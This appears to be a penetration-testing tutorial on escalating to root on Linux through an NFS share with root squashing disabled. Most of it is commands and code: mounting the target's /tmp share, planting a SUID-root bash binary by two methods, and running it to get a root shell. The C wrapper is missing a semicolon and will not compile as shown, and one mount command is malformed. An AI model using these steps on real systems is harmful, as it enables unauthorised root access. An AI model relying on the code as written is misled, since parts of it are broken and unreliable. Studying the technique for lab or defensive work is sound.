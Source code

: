 Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```bash
cat /etc/exports
```

Suppose we found that the **/tmp** share has root squashing disabled.

On our machine, we switch to root and create a mount point on your Kali box and mount the **/tmp** share: 

```bash
sudo su
mkdir /tmp/nfs
mount -o rw,vers=3 <target ip>:/tmp /tmp/nfs
#or
mount -w nfs <target ip>:/tmp /tmp/nfs
```
# Exploitation

### Method 1

Still using Kali's root user, now we compile this (bash.c file) c code:

```c
int main()
{  setgid(0);
   setuid(0);
   system("/bin/bash")
   return 0;
}
```

And now we compile it:

```bash
gcc bash.c -o bash
# Note that we might add -static flag if the gcc version is different that the target
```

Finally, still using Kali's root user we make the file executable and set the SUID permission:

```bash
chmod +xs /tmp/nfs/bash
```

Now we go back to the target machine and run the file to gain a root shell:

```bash
/tmp/bash -p
```
### Method 2

On the target machine we use the following command to copy the `/bin/bash` from the target machine to the nfs share:

```bash
cp /bin/bash /tmp
#we might alost use the /bin/bash from the attacker machine but because the bash versions might be different so its better to copy the target one
```

Now on the attacker machine we change the owner to the root, and give the right permissions:

```bash
chown root bash
chmod +xs bash
```

Finally, we go back to the target machine and run the file to gain a root shell:

```bash
/tmp/bash -p
```
